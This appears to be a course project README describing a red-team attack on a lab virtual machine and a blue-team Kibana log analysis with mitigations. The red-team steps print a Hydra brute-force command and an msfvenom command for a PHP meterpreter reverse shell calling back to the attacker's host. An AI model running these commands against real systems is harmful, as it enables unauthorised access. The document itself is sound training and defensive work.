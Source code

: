 # Red_Vs_Blue-Project
The assessment, analysis, and hardening of a vulnerable system from the red and blue persepctive.

# Scenario

Assuming the role of both pentester (The Red Team) and SOC analyst (The Blue team), The Red Team will attack a vulnerable Capstone virtual machine, ultimately gaining root access to the machine. As Blue Team, Kibana logs will be reviewed taken during the Day 1 engagement. The logs will be used to extract hard data and visualizations. Log data will be interpreted for mitigation measures for each exploit that was successfully performed.

# Network Topology

|  IP Address   |       Machine       |
|:-------------:|:-------------------:|
|  192.168.1.1  |       Hyper-V       |
|  192.168.1.90 |         Kali        |
| 192.168.1.100 | Elastic Stack (ELK) |
| 192.168.1.105 |       Capstone      |

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/d376cac01957cbf835b0715394d88edb26bec282/Images/Project%202%20-%20Network%20Diagram.jpg)

# Red Team - Penetration Test

1. Using NetDiscover, Nmap and a simple ifconfig command, it was uncovered the IP address of the Linux web server is **192.168.1.105**. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205454.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205453.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112341.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112533.png)

In the above image, port 22 and port 80 are exposed.

2. A browser was opened and then navigated to the IP address that was discovered. A web server with a list of directories was displayed. After performing a cursory research into each directory, there was mention of a "secret folder" that proved to be a point of interest. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113607.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114044.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113801.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114329.png)

3. After navigating to the secrect folder directory by typing http://192.168.1.105/company_folders/secret_folder/, there was a road block. Credentials were needed. A login screen pops up and states "For Ashton's eyes only". More research into the "meet_our_team" directory was done to find out more information on Ashton.

Unfortunately, no further information was found on Ashton and brute forcing would have to be the next option. Hydra was used to retrieve Ashton's password using the command:

**_hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder -t 40_**

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f7fe5da82c489111f87e4dde35b77319200cfc02/Images/hydra%20scan.jpg)

4. Logging into the "secret folder" was successful! Once logged in, a lone file called "connect_to_corp_server" was discovered. Inside the file was a set of intructions on how to connect to the company's WebDAV server, along with a user named Ryan and a password MD5 hash. With the help of crackstation.net, Ryan's password was cracked.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20124857.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125023.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125348.png)

5. The directions in the "connect_to_corp_server" file were followed in order to gain access to the WebDAV server with Ryan's credentials. The WebDAV had unrestricted upload permissions. A payload using MSFVenom was created in order to create a PHP reverse shell using the command:

**_msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o shell.php_**

It was then uploaded into the WebDAV directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20140046.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-06%20141644.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20192302.png)

6. A listener in Metasploit was deployed. Soon after the playload was lauched, and lastly a Meterpreter session was accessed.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20200616.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/4e28a3a131aef17e23ccd59671f184e0ff509ea1/Images/Screenshot%202021-11-11%20200617.jpg)

7. Once a shell was created and entered, the target file was located and a flag was found.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/50f24246cd5f1cfe8f8fb4a20335882dabde69dd/Images/Flag.jpg)

## Blue Team - Analysis of Attack ##

With the Red Team attack complete, It is now time to switch sides to the Blue team and anaylze the attack. Elastic Stack (ELK - 192.168.1.100) was used to send data and logs to Kibana. Filebeat, metricbeat, and packetbeat were installed prior on the target machine to perform an analysis of the attack. Indicators of attack will also be studied.

The first indicator of the attack was a port scan that bagan on **November 6th, 2021**. 11,238 packets were sent from 192.168.1.90 (the attack machine)

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/39eaf44b7769274d99a60fdd67c4bfc06083c78a/Images/Day2/Screenshot%202021-11-11%20212258.png)

This is what was sent back:

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/fc199d4c763726196340f5835d465054b99cef88/Images/Day2/Screenshot%202021-11-13%20103402.png)

The data shown in the above image is concerning due to the fact that there is a spike in activity on **November 6th, 2021** and also the amount of errors codes that resulted. This can be a clear indication of a brute force attack. The result of trying different credentials over and over would create a large amount of 401 error codes, showcased by the spike in activity on the chart. According to the _status_ and _http.response.status_code_ fields on the left of the image above, The records are mostly 401 and 207 errors. The 401 errors could be a result of a brute force attack, while the 207 errors indicate that a request has succeeded. This means a brute force attack was launched and successful.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20115505.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20120213.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20131059.png)

The images above are screenshots of the attacker accessing http://192.168.1.105/company_folders/secret_folder and http://192.168.1.105/company_folders/secret_folder/connect_to_corp_server. The user agent for these attacks was Mozilla/4.0 (Hydra) which is a brute force attack tool. 224 requests were made to the hidden directory at 4pm the same day. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20124152.png)

The file that was requested was a _doc file. This file contained instructions on how to add and access the webdav network server.

It was also discovered that the WebDAV directory was accessed from IP address 192.168.1.90. The attacker uploaded and accessed multiple files in the directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/67becebda91a9514764ba172186237cdb12b3a07/Images/Day2/Screenshot%202021-11-13%20134817.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/67becebda91a9514764ba172186237cdb12b3a07/Images/Day2/Screenshot%202021-11-13%20114144.png)

## Vulnerabilities & Mitigation ##

After discovering multiple vulnerabilities on the target VM, here are so mitigation strategies to help defend agasint further attacks in the future.

**Preventing Brute Force Attacks**

Mitigation:

- An alarm should be set to limit how many attempts can be made when entering a password before the user is locked out. 
   - The threshold should be set very low to deter threat actors, for example, 5 attempts.
   - After 5 attempts, the user will be permanently locked out until and administrator can be contacted.
   - Weak passwords is the root of this attack.
   - Since some of the users of the company have such weak password, password requirements should be put in place.
   - Two factor authentication, complex passwords (8 or more characters, special characters, numbers, contains no English words and case sensitive) and changing passwords once a month would be additional ways to mitigate attacks.

**Blocking the Port Scan**

Mitigation:

- Set an alarm that alerts of a high number of port scans through a firewall
  - An email should be sent to administrators when more then 10 port scans are done within a minute.
  - Only traffic from certain ports should be allowed; such as, port 80 and 443 to allow traffic from the internet. 

**Finding the Request for the Hidden Directory**

Mitigation:

- Set an alarm that sends an email alert for higher than normal traffic and unauthorized IPs accessing the secret folder.
  - No more than 4 attempts to access the folder should be made.
  - Only allow authorized IPs to have access to the secret folder as a whitelist. Also, encrypt any sensitive data and folders.
_/etc/httpd/conf/httpd.conf_ is where a whitelist can be made.

**Detecting the WebDAV Connection**

Mitigation:

- An alarm can be set to monitor traffic and connection attempts from unauthorized IPs to the webdav network.
  - The unauthorized user will only have 1 attempt.
  - Blocking traffic from unauthorized IPs with a whitelist or group policy
  - Also, more complex passwords (8 or more characters, special characters, numbers, containing no English words and case sensitive) should be implemented to avoid brute force attacks.

**Identifying Reverse Shell Uploads**

Mitigation:

- Create an alarm to alert when a file is being upload to the webdav folder, whether it is malicious or not. Another alarm should be made when port 4444 is being connected to.
  - Alerts should be immediate!
  - Access to the webdav folder should be set to “ready only”. Also, only authorized IPs should have access to the webdav folder.



